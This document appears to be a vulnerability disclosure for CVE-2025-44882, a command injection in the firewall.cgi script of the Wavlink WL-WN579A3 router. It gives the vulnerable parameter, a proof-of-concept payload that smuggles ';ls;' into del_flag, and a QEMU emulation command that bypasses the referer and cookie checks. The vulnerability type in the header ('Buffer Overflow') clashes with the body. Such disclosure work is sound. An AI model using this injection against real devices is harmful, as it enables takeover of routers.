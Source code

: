 ```yaml
---
title: Remote Command Execution in firewall.cgi of wavlink-WL-WN579A3 Device
date: 2025-03-31 20:05:46
tags: cve
---
```






**Affected Product**: Wavlink-WL-WN579A3

**Affected Firmware Versions**:  v1.0

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44882

CNVD:CNVD-2025-11240

# **Description**:

A command injection vulnerability exists in the  configuration management module's CGI script (`./etc/lighttpd/www/cgi-bin/firewall.cgi`). .The system function executes the concatenated byte_418C74. Since byte_418C74 can be controlled, the command execution vulnerability is triggered and any command can be executed.



![image-20250331200919940](../res/image-20250331200919940.png)





# exploit：



entering the main function, first verify the reference and cookie, check the logic and add environment variables to bypass

```
-E HTTP_REFERER=wifi.wavlink.com
-E HTTP_COOIKE = session=1111111111111
```



![image-20250331164323669](Remote-Command-Execution-in-qos-cgi-of-wavlink-WL-WN579A3-Device-1.assets/image-20250331164323669.png)

![image-20250331164356744](Remote-Command-Execution-in-qos-cgi-of-wavlink-WL-WN579A3-Device-1.assets/image-20250331164356744.png)





tracking sub_4016F0 function When the user inputs the parameter firewall=singlePortForwardDelete, the function sub_4016F0 is entered. In the sub_4016F0 function, the user input parameter del_flag is spliced into v4, and then system(v4) is executed, so we can construct a suitable v4 for attack

![image-20250331201304203](Remote-Command-Execution-in-qos-cgi-of-wavlink-WL-WN579A3-Device-1.assets/image-20250331201304203.png)



post_data.txt as follows:

```
firewall=singlePortForwardDelete&del_flag=;ls;
```





Executing within a chrooted QEMU environment:

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=1111 -cpu 74Kf  -g 1234 -E HTTP_REFERER=wifi.wavlink.com -E  HTTP_COOKIE=session=111111111111111  -L ./lib ./etc/lighttpd/www/cgi-bin/firewall.cgi < post_data.txt
```



Debugging confirms execution within `system()`

![img](../res/c35d02547e70712d8030433a96bfaa6e.png)

—the resulting command assembled by the application is:

```
uci delete firewall.@redirect[;ls; ]
```

This command not only executes the intended script (`uci delete firewall.@redirect[`) but also the injected `ls` command, which confirms that arbitrary command execution is possible. Given the potential for information disclosure and further system compromise, this issue is critical and should be addressed promptly.
